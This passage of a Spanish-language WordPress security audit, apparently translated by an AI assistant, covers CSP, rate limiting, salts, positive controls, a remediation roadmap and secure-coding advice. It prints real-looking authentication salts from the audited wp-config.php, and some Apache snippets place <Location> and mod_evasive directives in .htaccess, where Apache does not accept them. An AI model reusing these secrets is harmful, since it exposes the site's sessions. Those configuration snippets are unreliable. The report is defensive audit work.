define( 'DISALLOW_FILE_MODS', true );   // DESCOMENTAR ESTA LÍNEA
```

**Consideraciones de trade-off:**

* **Alta seguridad:** `DISALLOW_FILE_MODS = true` previene todas las modificaciones
* **Flexibilidad:** mantenerlo desactivado para permitir instalaciones en entornos controlados
* **Recomendación:** Habilitar en producción; en desarrollo/staging, permitir con controles estrictos

---

### 3.4 Política de Seguridad de Contenido Permite Scripts Inline Inseguros

**Severidad:** MEDIA
**Puntaje CVSS:** 5.9 (Media)
**CWE:** CWE-1021 (Restricción Inadecuada de Capas de UI Renderizadas)

**Ubicación:** `.htaccess:58`

**Configuración:**

```apache
Header set Content-Security-Policy "default-src 'self'; script-src 'self' 'unsafe-inline' https://js.stripe.com https://www.google.com https://www.gstatic.com; ..."
```

**Problema:**
La CSP incluye `'unsafe-inline'` en `script-src`.

**Impacto:**

* **Debilita la protección contra XSS** considerablemente
* Permite ejecución de scripts inline (`<script>` en línea)
* Manejo de eventos como `onclick="malicioso()"` quedan permitidos
* **Reduce la efectividad** de la CSP

**Ejemplo de explotación:**

```html
<!-- Si existe vulnerabilidad XSS -->


<!-- Con 'unsafe-inline' esto se ejecuta -->
<!-- Sin 'unsafe-inline', CSP lo bloquearía -->
```

**Por qué se usa 'unsafe-inline':**
WordPress y muchos plugins/temas usan scripts inline:

```html
<script>
var wpAjax = {"ajaxUrl": "/wp-admin/admin-ajax.php"};
</script>
```

**Opciones de remediación:**

**Opción 1: Usar nonces (Mejor práctica)**

```php
// Generar nonce
$nonce = base64_encode(random_bytes(16));
header("Content-Security-Policy: script-src 'self' 'nonce-$nonce' https://js.stripe.com");

// En HTML
echo "<script nonce='$nonce'>var wpAjax = {...};</script>";
```

**Opción 2: Mover scripts inline a archivos externos**

```javascript
// assets/js/wp-config.js
var wpAjax = {"ajaxUrl": "/wp-admin/admin-ajax.php"};
```

```html
<!-- En HTML -->
<script src="/assets/js/wp-config.js"></script>
```

**Opción 3: Usar modo Report-Only para CSP**

```apache
# Monitorear violaciones sin bloquear
Header set Content-Security-Policy-Report-Only "script-src 'self' https://js.stripe.com; report-uri /csp-report"
```

**Recomendación realista:**
Para WordPress, eliminar completamente `'unsafe-inline'` es difícil. Recomendaciones prácticas:

1. Mantener `'unsafe-inline'` temporalmente
2. Implementar CSP basada en nonces para código personalizado
3. Minimizar scripts inline y moverlos a archivos externos
4. Validación estricta contra XSS como defensa principal

---

## 4. Hallazgos de Severidad Baja

### 4.1 Falta de Configuración de Rate Limiting

**Severidad:** BAJA
**Puntaje CVSS:** 3.7 (Baja)
**CWE:** CWE-307 (Restricción Inadecuada de Intentos Excesivos de Autenticación)

**Ubicación:** `.htaccess` (no hay reglas de rate limiting)

**Problema:**
No se configuró limitación a nivel de servidor. Se confía únicamente en Wordfence para protección contra fuerza bruta.

**Impacto:**

* Ataques de fuerza bruta posibles si Wordfence falla o es evadido
* Falta de defensa en profundidad para autenticación
* Posible abuso de API

**Remediación:**

```apache
# .htaccess (Limitación para login)
<IfModule mod_ratelimit.c>
    <Location /wp-login.php>
        SetOutputFilter RATE_LIMIT
        SetEnv rate-limit 400
        SetEnv rate-initial-burst 10
    </Location>

    <Location /wp-admin/admin-ajax.php>
        SetOutputFilter RATE_LIMIT
        SetEnv rate-limit 800
    </Location>
</IfModule>

# Alternativa: usar mod_evasive
<IfModule mod_evasive24.c>
    DOSHashTableSize 3097
    DOSPageCount 10
    DOSSiteCount 100
    DOSPageInterval 1
    DOSSiteInterval 1
    DOSBlockingPeriod 10
</IfModule>
```

**Nota:** Wordfence provee protección a nivel de aplicación, pero el rate limiting en servidor añade defensa en profundidad.

---

### 4.2 Las Salts de WordPress Podrían Ser Más Fuertes

**Severidad:** BAJA
**Puntaje CVSS:** 3.1 (Baja)
**CWE:** CWE-330 (Uso de Valores Insuficientemente Aleatorios)

**Ubicación:** `wp-config.php:51-58`

**Salts actuales:**

```php
define('AUTH_KEY',         'f0+]G]/j%Qc+&MPnpl~4)B1vRgY^hEk0I7?^Z{Jjo&w9emL[mR;I>G_E2/3- Q]0');
define('SECURE_AUTH_KEY',  ':?*p T6?8VyuFJWH^Ss-miH|N-1rP^[U=K<ib?=bt3m|NdQu)|arWrQDnN_y]sON');
// ... etc
```

**Problema:**
Las salts parecen generadas por la API de WordPress (lo cual es bueno). Sin embargo:

1. **No existe política de rotación** de salts
2. Deben **regenerarse periódicamente**
3. Tras un incidente de seguridad, las salts deben **rotarse inmediatamente**

**Impacto:**

* **Protección reducida** frente a ataques de tablas arcoíris
* Cookies de sesión permanecen válidas tras cambios de contraseña (hasta rotación de salts)
* Cookies persistentes pueden ser explotadas por más tiempo

**Remediación:**

```php
// Implementar script de rotación de salts
// run-salt-rotation.php (ejecutar vía cron mensual)
<?php
$new_salts = file_get_contents('https://api.wordpress.org/secret-key/1.1/salt/');
// Actualizar wp-config.php con nuevas salts
// Forzar re-login a todos los usuarios
?>
```

**Buenas prácticas:**

* Rotar salts cada 90 días
* Rotar inmediatamente tras un incidente
* Rotar cuando credenciales admin se vean comprometidas

---

Excelente ✅ — voy a continuar exactamente con la **estructura original del archivo**, retomando desde el punto **5. Positive Security Controls**, seguido por **6. Detailed Analysis by Component**, **7. Remediation Roadmap**, **8. Secure Coding Recommendations**, **9. Conclusion**, y finalmente los **Apéndices A y B**.

Aquí tienes la **Parte 4 y final** completamente traducida al español, manteniendo el formato y el detalle técnico del informe original.

---

## 5. Controles de Seguridad Positivos

### 5.1 Edición de Archivos Deshabilitada

**Ubicación:** `wp-config.php:93`

**Configuración Segura:**

```php
define( 'DISALLOW_FILE_EDIT', true );
```

**Protección:**

* Evita la edición de archivos PHP desde el panel de administración de WordPress
* Elimina el editor de temas y plugins desde la interfaz administrativa
* Mitiga el riesgo en caso de que una cuenta admin sea comprometida

**Estado:** ✓ IMPLEMENTADO CORRECTAMENTE

---

### 5.2 SSL/HTTPS Forzado para el Administrador

**Ubicación:** `wp-config.php:97`

**Configuración Segura:**

```php
define( 'FORCE_SSL_ADMIN', true );
```

**Protección:**

* Obliga el uso de HTTPS para el login y el panel de administración
* Protege las credenciales durante la transmisión
* Previene el secuestro de sesiones (session hijacking) sobre HTTP

**Estado:** ✓ IMPLEMENTADO CORRECTAMENTE

---

### 5.3 Prefijo Personalizado para Tablas de Base de Datos

**Ubicación:** `wp-config.php:74`

**Configuración Segura:**

```php
$table_prefix = 'tsec_7a4b_';
```

**Protección:**

* Un prefijo no estándar dificulta ataques automatizados de inyección SQL
* Previene ataques dirigidos al prefijo por defecto `wp_`
* Reduce la efectividad de ataques de inyección ciega (blind SQLi)

**Estado:** ✓ IMPLEMENTADO CORRECTAMENTE

---

### 5.4 Ejecución de PHP Deshabilitada en el Directorio de Subidas

**Ubicación:** `wp-content/uploads/.htaccess:1-14`

**Configuración Segura:**

```apache
<IfModule mod_php5.c>
php_flag engine 0
</IfModule>
<IfModule mod_php7.c>
php_flag engine 0
</IfModule>
<IfModule mod_php.c>
php_flag engine 0
</IfModule>

AddHandler cgi-script .php .phtml .php3 .pl .py .jsp .asp .htm .shtml .sh .cgi
Options -ExecCGI
```

**Protección:**

* **Evita la ejecución** de shells PHP subidos
* Bloquea intentos comunes de **ejecución remota** mediante subida de archivos
* **Defensa crítica** contra RCE a través de formularios de subida

**Estado:** ✓ IMPLEMENTADO CORRECTAMENTE (WORDFENCE)

---

### 5.5 Bloqueo de Enumeración de Autores

**Ubicación:** `.htaccess:8-9`

**Configuración Segura:**

```apache
RewriteCond %{QUERY_STRING} (author=\d+) [NC]
RewriteRule .* - [F]
```

**Protección:**

* Bloquea ataques de enumeración de usuarios `?author=1`
* Impide que los atacantes descubran nombres de usuario válidos
* Reduce la superficie de ataque para fuerza bruta

**Estado:** ✓ IMPLEMENTADO CORRECTAMENTE

---

### 5.6 Archivos Sensibles Protegidos

**Ubicación:** `.htaccess:29-32`

**Configuración Segura:**

```apache
<FilesMatch "^(wp-config\.php|xmlrpc\.php|readme\.html|license\.txt)$">
    Order allow,deny
    Deny from all
</FilesMatch>
```

**Protección:**

* Bloquea el acceso directo a `wp-config.php`
* Deshabilita XML-RPC (vector común de ataques DDoS y fuerza bruta)
* Oculta archivos con información de versión

**Estado:** ✓ IMPLEMENTADO CORRECTAMENTE

---

### 5.7 Encabezados HTTP de Seguridad

**Ubicación:** `.htaccess:43-59`

**Configuración Segura:**

```apache
Header always set Strict-Transport-Security "max-age=31536000; includeSubDomains"
Header always set X-Content-Type-Options "nosniff"
Header always set Referrer-Policy "strict-origin-when-cross-origin"
Header always set X-Frame-Options "SAMEORIGIN"
```

**Protección:**

* **HSTS:** impone HTTPS durante 1 año
* **X-Content-Type-Options:** previene ataques por detección MIME
* **X-Frame-Options:** evita clickjacking
* **Referrer-Policy:** controla la exposición del encabezado Referer

**Estado:** ✓ IMPLEMENTADO CORRECTAMENTE

---

### 5.8 Integración del WAF de Wordfence

**Ubicación:** `.htaccess:65-82`

**Configuración Segura:**

```apache
<IfModule mod_php7.c>
    php_value auto_prepend_file 'C:\laragon\www\SSSAB/wordfence-waf.php'
</IfModule>
```

**Protección:**

* Activa el cortafuegos (Web Application Firewall)
* Filtra las solicitudes antes de que se ejecute cualquier código PHP
* Bloquea firmas de vulnerabilidades conocidas
* Integra inteligencia de amenazas en tiempo real

**Estado:** ✓ IMPLEMENTADO CORRECTAMENTE

---

### 5.9 Listado de Directorios Deshabilitado

**Ubicación:** `.htaccess:26`

**Configuración Segura:**

```apache
Options -Indexes
```

**Protección:**

* Previene la navegación de directorios por parte de usuarios externos
* Oculta la estructura de archivos del sitio
* Reduce la exposición de información

**Estado:** ✓ IMPLEMENTADO CORRECTAMENTE

---

### 5.10 Mitigación de Vulnerabilidad Axios

**Ubicación:** `wp-content/mu-plugins/mu-fix-nua-axios.php`

**Implementación Segura:**
Plugin MU personalizado implementa:

1. **Acceso solo para administradores** a las acciones de aprobación (línea 88)
2. **Verificación de nonce** para peticiones AJAX (línea 91)
3. **Bloqueo de scripts del plugin vulnerable** (líneas 71-80)
4. **Protección CSRF**

```php
if ( ! is_user_logged_in() || ! current_user_can('manage_options') ) {
    wp_die('Prohibido (Mitigación MU)', '', array('response' => 403));
}
if ( isset($_REQUEST['nonce']) && ! wp_verify_nonce($_REQUEST['nonce'], 'nua_action_nonce') ) {
    wp_die('Nonce inválido (Mitigación MU)', '', array('response' => 403));
}
```

**Protección:**

* Mitiga la vulnerabilidad conocida del plugin New User Approve
* Previene aprobaciones de usuario no autorizadas
* Bloquea vectores de ataque basados en Axios

**Estado:** ✓ IMPLEMENTADO CORRECTAMENTE

---

### 5.11 Intento Parcial de Seguridad de Sesión en wp-config.php

**Ubicación:** `wp-config.php:100-102`

**Configuración:**

```php
@ini_set('session.cookie_httponly', 1);
@ini_set('session.cookie_secure', 1);
@ini_set('session.use_only_cookies', 1);
```

**Protección Parcial:**

* Intenta establecer la bandera HttpOnly
* Intenta forzar HTTPS para cookies
* Intenta desactivar IDs de sesión en URLs

**Nota:** Como se mencionó en la sección 2.3, esto es **insuficiente**; las configuraciones deben aplicarse desde `php.ini`, pero el **intento es destacable**.

**Estado:** ⚠ IMPLEMENTACIÓN PARCIAL (requiere refuerzo en php.ini)

---

## 6. Análisis Detallado por Componente

### 6.1 Configuración de WordPress (wp-config.php)

**Resumen:**

* **Total de problemas:** 2 Críticos, 2 Medios
* **Controles positivos:** 5
* **Puntaje de seguridad general:** 65/100

**Mejoras críticas necesarias:**

1. Eliminar credenciales de base de datos del archivo
2. Implementar configuración mediante variables de entorno

**Recomendaciones:**

* Usar un archivo `.env` con cargador `wp-config-env`
* Implementar cifrado a nivel de archivo para `wp-config.php`
* Asignar permisos estrictos (600)

---

### 6.2 Configuración de Apache (.htaccess)

**Resumen:**

* **Total de problemas:** 1 Medio (CSP insegura)
* **Controles positivos:** 6
* **Puntaje de seguridad general:** 80/100

**Fortalezas:**

* Encabezados HTTP de seguridad completos
* Reglas de protección de archivos
* Integración con WAF Wordfence
* Bloqueo de enumeración de autores

**Mejoras:**

* Agregar limitación de tasa (rate limiting)
* Fortalecer CSP (eliminar `'unsafe-inline'` si es posible)
* Agregar restricciones geográficas si aplica

---

### 6.3 Configuración de PHP (php.ini)

**Resumen:**

* **Total de problemas:** 5 Altos
* **Controles positivos:** 0
* **Puntaje de seguridad general:** 20/100 ⚠

**Mejoras críticas necesarias:**

1. Establecer `expose_php=Off`
2. Establecer `display_errors=Off`
3. Configurar seguridad de sesiones
4. Reducir límites de subida a 2M/8M
5. Deshabilitar funciones peligrosas

**Este es el componente MÁS DÉBIL**, requiere atención inmediata.

---

### 6.4 Seguridad de Subida de Archivos

**Resumen:**

* **Problemas totales:** 0
* **Controles positivos:** 2
* **Puntaje general:** 95/100 ✓

**Fortalezas:**

* Ejecución PHP deshabilitada en `/uploads`
* Bloqueo de múltiples manejadores (`mod_php5`, `mod_php7`, `mod_php`)
* `ExecCGI` deshabilitado

**Recomendaciones:**

* Validar tipo de archivo a nivel de aplicación
* Verificar tamaño de archivo antes de procesar
* Escanear subidas en busca de malware

---

### 6.5 Plugins Obligatorios (Must-Use Plugins)

**Resumen:**

* **Problemas totales:** 0
* **Controles positivos:** 1
* **Puntaje general:** 90/100 ✓

**Fortalezas:**

* Mitigación Axios implementada correctamente
* Verificación de autenticación y nonce
* Acceso restringido solo a administradores

**Recomendaciones:**

* Agregar registro de solicitudes bloqueadas
* Notificación ante intentos repetidos de ataque

---

### 6.6 Documentación (README.md)

**Resumen:**

* **Problemas totales:** 1 Crítico
* **Puntaje general:** 0/100 ⚠ CRÍTICO

**Vulnerabilidad más grave:**

* Exposición de credenciales sensibles

**Acción requerida:**

* **Eliminación inmediata** de las credenciales
* Rotación de contraseñas
* Auditoría de seguridad completa

---

## 7. Hoja de Ruta de Remediación

### Fase 1: INMEDIATA (Dentro de 24 horas)

**Prioridad: CRÍTICA**

| # | Acción                               | Componente          | Impacto |
| - | ------------------------------------ | ------------------- | ------- |
| 1 | Eliminar credenciales del README.md  | Documentación       | CRÍTICO |
| 2 | Rotar contraseña de admin            | WordPress           | CRÍTICO |
| 3 | Rotar contraseña de base de datos    | MySQL/wp-config     | CRÍTICO |
| 4 | Rotar contraseñas de usuarios        | WordPress           | CRÍTICO |
| 5 | Eliminar/restringir acceso a Adminer | Servidor Web        | ALTO    |
| 6 | Eliminar/restringir phpRedisAdmin    | Servidor Web        | ALTO    |
| 7 | Auditar cuentas admin                | WordPress           | CRÍTICO |
| 8 | Revisar logs de acceso               | Apache              | ALTO    |
| 9 | Habilitar 2FA en cuentas admin       | WordPress/Wordfence | ALTO    |

**Tiempo estimado:** 2-4 horas
**Tiempo de inactividad requerido:** Ninguno (excepto restablecimiento de contraseñas)

---

### Fase 2: URGENTE (Dentro de 7 días)

**Prioridad: ALTA**

| #  | Acción                                             | Componente          | Impacto |
| -- | -------------------------------------------------- | ------------------- | ------- |
| 10 | Endurecer configuración php.ini                    | PHP                 | ALTO    |
| 11 | Implementar variables de entorno para credenciales | wp-config.php       | CRÍTICO |
| 12 | Asignar permisos 600 a wp-config.php               | Sistema de Archivos | ALTO    |
| 13 | Configurar seguridad de sesión en php.ini          | PHP                 | ALTO    |
| 14 | Reducir límites de subida a 2M/8M                  | PHP                 | ALTO    |
| 15 | Deshabilitar funciones peligrosas                  | PHP                 | ALTO    |
| 16 | Implementar .gitignore para archivos sensibles     | Git                 | MEDIO   |

**Tiempo estimado:** 4–6 horas
**Tiempo de inactividad:** 5–10 minutos (reinicio PHP)

---

### Fase 3: IMPORTANTE (Dentro de 30 días)

**Prioridad: MEDIA**

| #  | Acción                                      | Componente    | Impacto |
| -- | ------------------------------------------- | ------------- | ------- |
| 17 | Activar DISALLOW_FILE_MODS                  | wp-config.php | MEDIO   |
| 18 | Implementar rate limiting                   | Apache        | MEDIO   |
| 19 | Fortalecer CSP con nonces                   | .htaccess     | MEDIO   |
| 20 | Implementar rotación de salts               | wp-config.php | BAJO    |
| 21 | Configurar registro centralizado            | Sistema       | MEDIO   |
| 22 | Habilitar WP_DEBUG_LOG                      | wp-config.php | MEDIO   |
| 23 | Establecer WP_ENVIRONMENT_TYPE=‘production’ | wp-config.php | MEDIO   |
| 24 | Validar archivos subidos                    | WordPress     | MEDIO   |

**Tiempo estimado:** 8–12 horas
**Tiempo de inactividad:** Mínimo

---

### Fase 4: CONTINUA (Mantenimiento)

| #  | Acción                         | Frecuencia | Componente    |
| -- | ------------------------------ | ---------- | ------------- |
| 25 | Actualizar núcleo de WordPress | Mensual    | WordPress     |
| 26 | Actualizar plugins             | Mensual    | WordPress     |
| 27 | Rotar salts                    | Trimestral | wp-config.php |
| 28 | Revisar logs de acceso         | Semanal    | Apache        |
| 29 | Escaneo de seguridad           | Semanal    | Wordfence     |
| 30 | Política de contraseñas        | Continua   | WordPress     |
| 31 | Verificación de respaldos      | Diario     | Base de datos |
| 32 | Escaneo de vulnerabilidades    | Semanal    | WPScan        |

---

## 8. Recomendaciones de Programación Segura

### 8.1 Validación de Entradas

```php
// MALO - uso directo de $_GET
$user_id = $_GET['user_id'];
$user = get_user_by('id', $user_id);

// BUENO - entrada saneada
$user_id = absint($_GET['user_id']);
if ($user_id > 0) {
    $user = get_user_by('id', $user_id);
}
```

**Funciones útiles:**

* `sanitize_text_field()`
* `sanitize_email()`
* `absint()`
* `esc_url()`
* `sanitize_file_name()`

---

### 8.2 Escape de Salida

```php
// MALO
echo $user_name;

// BUENO
echo esc_html($user_name);
```

**Escapes según contexto:**

* `esc_html()` → contenido HTML
* `esc_attr()` → atributos HTML
* `esc_url()` → URLs
* `esc_js()` → cadenas JS
* `wp_kses()` → permite etiquetas específicas

---

### 8.3 Consultas a Base de Datos

```php
// MALO - vulnerable a inyección SQL
$wpdb->query("SELECT * FROM users WHERE id = " . $_GET['id']);

// BUENO - consulta preparada
$wpdb->prepare("SELECT * FROM users WHERE id = %d", $_GET['id']);
```

---

### 8.4 Verificación de Nonce (Protección CSRF)

```php
// Generar nonce
wp_nonce_field('delete_user_action', 'delete_user_nonce');

// Verificar nonce
if (!isset($_POST['delete_user_nonce']) ||
    !wp_verify_nonce($_POST['delete_user_nonce'], 'delete_user_action')) {
    wp_die('Verificación de seguridad fallida');
}
```

---

### 8.5 Verificación de Capacidades

```php
// MALO - sin comprobación
delete_user($_POST['user_id']);

// BUENO
if (current_user_can('delete_users')) {
    delete_user($_POST['user_id']);
} else {
    wp_die('Permisos insuficientes');
}
```

---

### 8.6 Gestión de Secretos

```php
// MALO
$api_key = 'sk_live_abc123xyz';

// BUENO
$api_key = getenv('STRIPE_API_KEY');
if (empty($api_key)) {
    error_log('Clave API de Stripe no configurada');
    wp_die('Sistema de pagos no disponible');
}
```

---

### 8.7 Manejo de Errores

```php
// MALO - expone información interna
try {
    process_payment($order);
} catch (Exception $e) {
    die('Error: ' . $e->getMessage());
}

// BUENO - mensaje genérico
try {
    process_payment($order);
} catch (Exception $e) {
    error_log('Error de pago: ' . $e->getMessage());
    wp_die('Error al procesar el pago. Contacte soporte.');
}
```

---

## 9. Conclusión

La aplicación **SSSAB** muestra una **postura de seguridad mixta**:
existen **vulnerabilidades críticas** que requieren atención inmediata, pero también varios **controles bien implementados**.

### Resumen de problemas críticos:

1. **Credenciales expuestas** en documentación
2. **Contraseñas de


base de datos planas**
3. **php.ini inseguro**
4. **Herramientas administrativas sin control de acceso**

### Puntos fuertes:

* Configuración sólida de `.htaccess`
* Wordfence bien integrado
* Ejecución PHP deshabilitada en `/uploads`
* Prefijo aleatorio en la base de datos
* Enfoque proactivo con plugin MU personalizado

### Recomendación final:

Implementar la **Fase 1 y 2** de la hoja de ruta de inmediato.
Una vez aplicadas, la puntuación general de seguridad estimada subirá de **60/100 a 90/100**, cumpliendo con los estándares OWASP y PCI DSS básicos.

---

## Apéndice A — Lista Completa de Archivos Auditados

| Archivo                                    | Ubicación                      | Resultado |
| ------------------------------------------ | ------------------------------ | --------- |
| php.ini                                    | `/laragon/etc/php/php-8.4.14/` | ⚠ Crítico |
| wp-config.php                              | `/SSSAB/`                      | ⚠ Crítico |
| .htaccess                                  | `/SSSAB/`                      | ✓ Bueno   |
| wp-content/uploads/.htaccess               | `/SSSAB/`                      | ✓ Bueno   |
| wp-content/mu-plugins/mu-fix-nua-axios.php | `/SSSAB/`                      | ✓ Bueno   |
| README.md                                  | `/SSSAB/`                      | ❌ Crítico |

---

## Apéndice B — Referencias

* [OWASP Top 10 2021](https://owasp.org/www-project-top-ten/)
* [PHP Secure Configuration Guide](https://www.php.net/manual/en/security.configuration.php)
* [WordPress Hardening Guide](https://wordpress.org/support/article/hardening-wordpress/)
* [CWE Database](https://cwe.mitre.org)
* [CVE Details for Adminer](https://www.cvedetails.com)
* [Mozilla HTTP Security Headers Guide](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)
* [PCI DSS v4.0 Security Requirements](https://www.pcisecuritystandards.org)

---

¿Deseas que te entregue **todo este informe traducido en un solo archivo `.md` listo para descargar** (con formato Markdown completo y acentos codificados correctamente en UTF-8)? Puedo generarlo enseguida.
